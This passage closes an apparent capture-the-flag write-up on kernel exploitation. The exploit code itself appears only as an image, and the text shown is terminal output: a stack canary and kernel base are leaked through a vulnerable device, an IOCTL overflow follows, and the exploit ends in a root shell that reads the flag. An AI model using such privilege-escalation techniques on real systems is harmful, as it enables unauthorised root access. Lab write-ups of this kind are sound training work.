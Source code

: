 Running it we get:
```
    ~ $ id
    uid=1000(ctf) gid=1000 groups=1000
    ~ $ /exploit 
    [    6.434303] Device opened
    Device Opened!
    [    6.440432] 192 bytes read from device
    Canary: 1dbfb58daac4400
    Kernel Base: ffffffffb7a00000
    [    6.444898] IOCTL Called
    [    6.445939] 320 bytes written to device
    And we are root
    /bin/sh: can't access tty; job control turned off
    /home/ctf # id
    uid=0(root) gid=0
    /home/ctf # cat /flag.txt 
    flag{test_flag}
   ```
If we remove the signal handler we would get:
```
~ $ /exploit 
[   12.980839] Device opened
Device Opened!
[   12.983142] 192 bytes read from device
Canary: 8ebd624954d0bd00
Kernel Base: ffffffffa8600000
[   12.985931] IOCTL Called
[   12.986503] 320 bytes written to device
[   12.992062] All device's closed
Segmentation fault
```

So despite the fact that is a shorter post also like finding rop gadgets or functions in /proc/kallsyms should be clear from the first kernel post I made... so as you saw I take them as trivial and the reader can do on its way.
